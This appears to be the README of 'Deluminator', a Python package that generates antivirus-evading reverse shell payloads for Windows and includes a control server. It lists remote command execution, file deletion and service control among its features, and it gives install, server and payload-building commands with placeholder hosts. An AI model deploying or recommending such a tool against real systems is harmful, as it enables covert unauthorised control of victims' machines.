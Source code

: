 # Deluminator

[![License](https://img.shields.io/badge/License-BSD-red.svg)](https://github.com/t3l3machus/hoaxshell/blob/main/LICENSE.md)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

## Description
This package is a reverse shell generator for Windows systems that uses sockets to establish a connection. It is highly capable of bypassing antivirus software. The package includes a control server and comes with a number of useful features.  

## Features
- Root shell `Coming soon`
- System information
- Delete files & folder on the host machine. 
- Execute commands on target machine. 
- Upload/Download any type of files. `Coming soon`
- Get all processes running in a system.
- Kill process by name, id etc...
- Enable/Disable windows services.
- Start/Stop windows service.
- Start/Restart windows system.
- Screenshot `Coming soon`

## How to install
```
pip install deluminator
```  

## Setup Server
```
python aurora.py server --help
```
```
python aurora.py server --host <HOST> --port <PORT>
```

## Build Payload
```
python aurora.py payload --help
```
```
python aurora.py payload --name <NAME> --host <HOST> --port <PORT> --time <RECONNECTION TIME>
```

## Disclaimer
This tool is for educational and testing purposes only. Do not use its payloads on hosts without proper authorization. You are responsible for any consequences resulting from its use.
